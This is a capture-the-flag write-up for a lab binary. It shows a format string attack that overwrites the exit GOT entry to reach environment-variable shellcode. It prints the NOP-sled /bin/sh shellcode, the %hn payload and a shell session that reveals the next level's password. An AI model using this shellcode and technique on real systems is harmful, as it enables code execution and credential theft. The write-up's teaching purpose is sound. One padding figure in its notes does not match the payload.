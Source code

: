 

# Overwrite .GOT table again

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.

```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz  scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

Since no sanitize takes place on our input and it is handled by printf, we can use a **format string attack**.

We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the field in the **got.plt** table  :

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
...
08048370 <exit@plt>:
8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
...
0x80497e0 <exit@got.plt>:       0x08048376
```

Let's build our attack.

First we will inject a spawn shell code into an environment variable ( *using a **NOP slide** with shellcode can help to make exploits more reliable, as it provides a "buffer" of NOP instructions that can help to align the program's execution flow with the shellcode. This can help to prevent the exploit from failing due to small variations in the branch target address* ) :



    export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')


**got.plt** table addr: **`0x80497e0`**  

**env** var addr: **`0xffffd7d9`** / **`4294957017`**  
  
We notice that the address of the **env** var is a very large number, we will have to divide the overwrite operation into two parts.

```
1) d7d9 -> 55257 -> pad (55257 - 8) -> 55249
2) ffff -> 65535 -> pad (65535 - 55257) -> 10317

1st part addr: 0x80497e0
2th part addr: 0x80497e2

2th   1th 
[__|__|__|__] -> ??? [ff|ff|d7|d9]
```

```
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55249c%10$hn" + "%10278c%11$hn"' > /tmp/boom
cat /tmp/boom - | ./level05
```

```
whoami
level06
cat /home/users/level06/.pass            
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> flag: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
